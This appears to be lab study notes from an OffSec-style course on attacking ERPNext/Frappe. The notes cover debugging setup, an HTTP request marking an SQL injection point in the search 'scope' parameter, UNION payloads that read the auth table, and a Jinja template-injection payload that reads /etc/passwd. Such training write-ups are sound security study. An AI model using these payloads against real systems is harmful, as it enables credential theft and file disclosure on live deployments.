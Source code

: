# ERP Next

## Configure SMTP Server

Start an smtp server:
```bash
sudo python -m smtpd -n -c DebuggingServer 0.0.0.0:25
```

Tell Frappe to use our SMTP server by configuring `~/frappe-bench/sites/site1.local/site_config.json` and setting:

```json
{
    "mail_server": "192.168.119.137",
    "use_ssl": 0,
    "mail_port": 25,
    "auto_email_id": "sender@domain.com"
}
```

## Remote Debugging of Frappe

Uses `bench` to start multiple processes, configured in `/home/frappe/frappe-bench/Procfile`.  

The `bench start` command will run our application from `/home/frappe/frappe-bench/apps/frappe/frappe/app.py`.  We will inject some extra code to open a debugging port (TCP/5678) for the Visual Studio Code and wait for the remote debugger to attach:

```python
import ptvsd
ptvsd.enable_attach(redirect_output=True)
ptvsd.wait_for_attach()
```

Transfer the entire app code with rsync to our Kali machine so we can debug it.

```bash
rsync -azP frappe@192.168.121.123:/home/frappe/frappe-bench ./
```

Run our frappe python app from the `sites` folder using the `bench_helper.py` script:

```bash
../env/bin/python ../apps/frappe/frappe/utils/bench_helper.py frappe serve --port 8000 --noreload --nothreading
```

In VS Code, go to the debugger and create a `launch.json` file to start a remote debugging session.  Make sure to set the `remoteRoot` to the path where the code is running from on the server.

## MariaDB Query Logging

OSS fork of MySQL; similar config at `/etc/mysql/my.cnf`.

Configure the `general_log_file` and `general_log` settings to enable query logs, then `tail` this file.

## SQL Injection

SQL injection available in the search `scope` param (and others).

```
POST / HTTP/1.1
Host: 192.168.137.123:8000
Content-Length: 142
Accept: application/json, text/javascript, */*; q=0.01
X-Frappe-CSRF-Token: None
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.137.123:8000
Referer: http://192.168.137.123:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: system_user=yes; user_image=; sid=Guest; full_name=Guest; user_id=Guest
Connection: close

cmd=frappe.utils.global_search.web_search&text=hello&scope=INJECT
```


See list of provided injections to be injected provided by OffSec.

Beware of COLLATION errors when using `UNION`.  You may to figure out the collection to use and then explicitly set the collation as follows:

```sql
" UNION ALL SELECT 1,2,3,4,COLLATION_NAME FROM information_schema.columns WHERE TABLE_NAME = "__global_search" AND COLUMN_NAME = "name"#
```
```sql
" UNION ALL SELECT 1,2,3,4,name COLLATE utf8mb4_general_ci FROM __Auth#
```

Use the password reset function rather than trying to brute-force the password hashes available.

## Server-side Template Injection

Jinja templates used.  Ultimately, this still translates to Python under the hood!  

Test for SSTI using a simple expression like `{{1+2}}` and see if it is evaluated.

Example injection for Python:
* Given a string
* Get the `__class__` class metadata for it
* Get the "method resolution order" or `__mro__`, returns a tuple of classes, in the order in which an attribute or methods in overriden classes should be searched for in either the current class or parent classes.  
* The `__subclassess__` method returns all references to classes that have overriden a class.
* #40 in this case is the `file` type, so we can create a instance of it and call `read` to read a file from disk.

```python jinja
{{ ''.__class__.__mro__[2].__subclassess__()[40]('/etc/passwd').read() }}
```

Note that the Python version will affect your SSTI payloads:
    * In Python3, all classes override from `object` at a minimum, even if this isn't explicitly defined.
    * In Python3, `string` inherits from `object`, whereas in Python2, `string` inherits from `basestring` which in turn inherits from `object`.

Note that you can use `copy(temp1)` in Chrome Dev Tools to copy something to the clipboard!

## References

[Jinja2 SSTI filter bypasses](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f)

[Jinja2 template injection filter bypasses](https://0day.work/jinja2-template-injection-filter-bypasses/)

[Cheatsheet - Flask & Jinja2 SSTI](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

[Tplmap](https://github.com/epinna/tplmap)

[SecList - Discovery/Web_Content/burp-parameter-names](https://raw.githubusercontent.com/albinowax/SecLists/9309803f3f7d5c1e0b2f26721c1ea7ef36eeb1c8/Discovery/Web_Content/burp-parameter-names)